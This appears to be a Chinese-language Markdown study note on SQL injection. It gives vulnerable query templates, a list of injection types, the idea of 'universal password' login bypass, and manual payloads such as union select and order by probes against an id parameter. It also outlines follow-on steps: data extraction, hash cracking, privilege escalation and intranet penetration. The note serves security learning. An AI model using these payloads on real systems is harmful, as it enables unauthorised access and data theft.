     //字符型注入
    select name,password,uid from users where uid='$id'
    
    //搜索型注入
    select name,password,uid from users where name like "%$uname%"了;
    ```

  - 注入点反馈类型
    - 1.联合查询-->`union`类型
    - 2.报错注入-->基于错误显示
    - 3.布尔盲注-->布尔类型
    - 4.时间盲注-->基于时间
    - 5.其它注入-->宽字节注入,`header`注入,`base64`,`url`注入,二次注入,堆叠注入
  - 万能密码
    - 原理:使用`构造方式`绕过参数验证
    - 危害:可以在不知道用户密码的情况下,登录到`任意账户`,包括`管理员账户`

### 手工注入

- 适用情况:在`自动化工具无法起作用`或者`情况复杂`时使用

- 流程:判断漏洞

- ```
  //判断是否有注入漏洞
  
  通过注释["--","#"],闭合[']方式
  通过在参数之间使用add,or来对输入进行判断,是否有语句执行
  '1 and 1=1 --+ //正常显示
  '1 and 1=2 --+ //错误显示
  说明存在注入漏洞
  ```

- 识别注入点类型

- ```
  //获取数据库基本信息(数据库版本[version()],数据库类型,回显数据列数等)
  ?id=-1' order by 10 --+ //使用order by [字段数] 查询出字段数
  ?id=-1' union select 1,2,3 --+ //使用union联合查询,找出字段对应输出位置
  
  可以使用内置函数uesr(),version()等在占位符获取数据库信息
  ```

- 获取`数据库名`,`表名`,`列名`,`用户数据`

- 破解加密数据

- 提升权限

- 内网渗透

### 联合查询

- 定义:使用`拼接联合方式`将2组或多组关键值`拼凑起来`进行查询

- 使用:多条查询语句的`查询列数和数据类型必须一致`,union关键字`默认去重`,如果使用union all 可以包含重复项
